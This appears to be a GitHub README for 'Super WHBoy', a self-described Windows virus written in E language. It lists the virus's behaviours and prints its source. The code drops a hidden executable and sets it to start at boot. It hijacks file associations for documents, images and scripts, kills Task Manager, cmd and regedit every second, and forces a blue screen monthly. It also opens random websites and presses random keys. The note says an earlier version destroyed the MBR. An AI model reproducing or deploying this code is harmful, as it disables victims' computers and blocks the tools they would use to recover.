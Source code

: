 Super WHBoy
=
**Project Introduction**  
* This update:
  * Cancel the function of destroying MBR and keep BSOD on the 1st day of each month.
* It is written in easy language and C language.
* There are some files: self starting.e is the program after the virus is added and started; main.e is the main body of the program, which runs only once;Killwhboy.e is the source code of antivirus program;killwhboy.exe Is the compiled antivirus program;unknow:Necessary files for compiling or running virus Ontology.For more information, see wiki.
* Viral behavior:
  * a. Release self boot file and icon file in the root directory of the system; 
  * b. Modify the registry to change the default icon of EXE file to the icon file released under the root directory;
  * c.Destroy the opening mode of some files so that they cannot be opened; 
  * d. Shut down the computer after 10 minutes;
  * e.Open a web page every 18 seconds; 
  * f.Close CMD, tasklist and regedit every 1 second; 
  * g.A warning is sent every 25 seconds.
  * h.The computer will be Blue Screen of Death on the 1st of every month.
  * i.Press five random keys every 30 seconds.
* Detoxification method: first use disk tool to search for the lost partition and recover it, then rebuild the boot record and enter the system, then run the detoxification program. Or contact the author.If it is No.1, please adjust the time under PE or do not use the poisoned computer on the same day.
* The virus also has some vulnerabilities:
>You can call up the file extension through the folder option in the control panel, and change the suffix of CMD, tasklist or regedit to com, so that you can open the program and use it.   
# Main.e  
## Window assembly:  
`.版本 2  `  
`.支持库 eAPI  `  
`.程序集 窗口程序集_启动窗口  `  
`.子程序 __启动窗口_创建完毕  `  
`' 重启资源管理器  `  
`终止进程 (“explorer.exe”)  `  
`运行 (“explorer”, 假, #隐藏窗口)  `  
`' 释放病毒文件  `  
`写到文件 (“C:\icon.ico”, #icon)  `  
`写到文件 (“C:\wrom.exe”, #wrom)  `  
`写到文件 (“C:\img.bmp”, #img)  `  
`置文件属性 (“C:\wrom.exe”, #隐藏文件)  `  
`运行 (“C:\wrom.exe”, 假, )  `  
`' 修改注册表  `  
`写注册项 (#根类, “.lnk\”, “exefile”)  `  
`写注册项 (#根类, “.doc\”, “exefile”)  `  
`写注册项 (#根类, “.docx\”, “exefile”)  `  
`写注册项 (#根类, “.ppt\”, “exefile”)  `  
`写注册项 (#根类, “.pptx\”, “exefile”)  `  
`写注册项 (#根类, “.xls\”, “exefile”)  `  
`写注册项 (#根类, “.xlsx\”, “exefile”)  `  
`写注册项 (#根类, “.png\”, “exefile”)  `  
`设置桌面墙纸 (“C:\img.bmp”, 2)  `  
`' 文件关联2  `  
`写注册项 (#根类, “.jpg\”, “exefile”)  `  
`写注册项 (#根类, “.jpeg\”, “exefile”)  `  
`写注册项 (#根类, “.bmp\”, “exefile”)  `  
`写注册项 (#根类, “.com\”, “exefile”)  `  
`写注册项 (#根类, “.mp3\”, “exefile”)  `  
`写注册项 (#根类, “.mp4\”, “exefile”)  `  
`写注册项 (#根类, “.avi\”, “exefile”)  `  
`写注册项 (#根类, “.mp5\”, “exefile”)  `  
`写注册项 (#根类, “.txt\”, “exefile”)  `  
`写注册项 (#根类, “.bat\”, “exefile”)  `  
`写注册项 (#根类, “.cmd\”, “exefile”)  `  
`写注册项 (#根类, “.vbs\”, “exefile”)  `  
`写注册项 (#根类, “.java\”, “exefile”)  `  
`写注册项 (#根类, “.cpp\”, “exefile”)  `  
`写注册项 (#根类, “exefile\DefaultIcon\”, “C:\icon.ico”)  `  
`' 开机自启动  `  
`写注册项 (#本地机器, “software\microsoft\windows\CurrentVersion\Run\wrom”, “C:\wrom.exe”)  `  
`' 重启资源管理器  `  
`终止进程 (“explorer.exe”)  `  
`运行 (“explorer”, 假, #隐藏窗口)  `  
`信息框 (“Oh?”, 0, “Super WHBoy”, )  `  
`.子程序 _数值增加_周期事件  `  
`BoxNumber ＝ BoxNumber ＋ 1  `  
`.子程序 _自我防护_周期事件  `  
`终止进程 (“taskmgr.exe”)  `  
`终止进程 (“cmd.exe”)  `  
`终止进程 (“regedit.exe”)  `  
## Picture&Program res
`.版本 2`  
`.图片 icon`  
`.图片 wrom`  
`.图片 img` 
# Self Starting.e 
`.版本 2`  
`.子程序 _变卡_周期事件`  
`置随机数种子 ()`  
`超级链接框1.Internet地址 ＝ 到文本 (“www.” ＋ 字符 (取随机数 (1, 100)) ＋ 字符 (取随机数 (1, 100)) ＋ 字符 (取随机数 (1, 100)) ＋ 字符 (取随机数 (1, 100)) ＋ “.com”)`  
`超级链接框1.跳转 ()`  
**And Blue screen: **   
`.版本 2  `  
`.子程序 _时钟1_周期事件  `  
`编辑框1.内容 ＝ 到文本 (取现行时间 ())  `  
`.判断开始 (寻找文本 (编辑框1.内容, “1日”, , 假) ＞ 0)  `  
    `系统_蓝屏 ()  `  
**Pop up windows and buttons:**  
`.版本 2`  
`.支持库 eAPI`  
`.子程序 _警告弹窗_周期事件`  
`信息框 (“Your computer is poisoned!”, #错误图标, “Super WHBoy”, )`  
`.子程序 _按键事件_周期事件`  
`置随机数种子 ()`  
`.计次循环首 (5, )`  
    `模拟按键 (字符 (取随机数 (65, 90)), 字符 (取随机数 (65, 90)), 字符 (取随机数 (65, 90)))`  
    `模拟按键 (字符 (取随机数 (65, 90)), 字符 (取随机数 (65, 90)), )`  
`.计次循环尾 ()`  
![](https://baike.baidu.com/pic/%E7%86%8A%E7%8C%AB%E7%83%A7%E9%A6%99/11050605/1/0df431adcbef76094b36d809c995b4cc7cd98d103046?fr=lemma&ct=single#aid=1&pic=0df431adcbef76094b36d809c995b4cc7cd98d103046)  
